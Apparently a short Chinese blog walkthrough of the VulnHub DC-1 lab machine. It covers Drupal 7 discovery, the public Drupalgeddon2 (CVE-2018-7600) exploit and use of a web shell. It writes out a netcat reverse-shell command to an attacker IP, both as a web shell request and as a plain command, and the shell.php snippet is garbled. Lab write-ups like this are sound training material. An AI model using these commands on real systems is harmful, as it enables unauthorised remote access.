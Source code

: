 ```yaml
---
title: "VulnHub-DC1"
date:  2022-03-20
categories: [滲透測試]
tags:       [Vulnhub]
---
```

# 發現有port 80 -\> 直接瀏覽網頁



# 使用wappalyzer得知使用Drupal 7



# 搜尋已知Exploit來取得RCE

- CVE-2018-7600

  > Exploit:https://github.com/dreadlocked/Drupalgeddon2

# ls -\> 發現flag1



# 發現有shell.php

``` line-numbers
&1 ');}>
```

# 使用nc 監聽取回reverse shell(python pty)

``` line-numbers
http://10.0.2.4/shell.php?c=nc%20-e%20%2Fbin%2Fsh%2010.0.2.15%208080
nc -e /bin/sh 10.0.2.15 8080
python -c "import pty;pty.spawn('/bin/bash')"
```
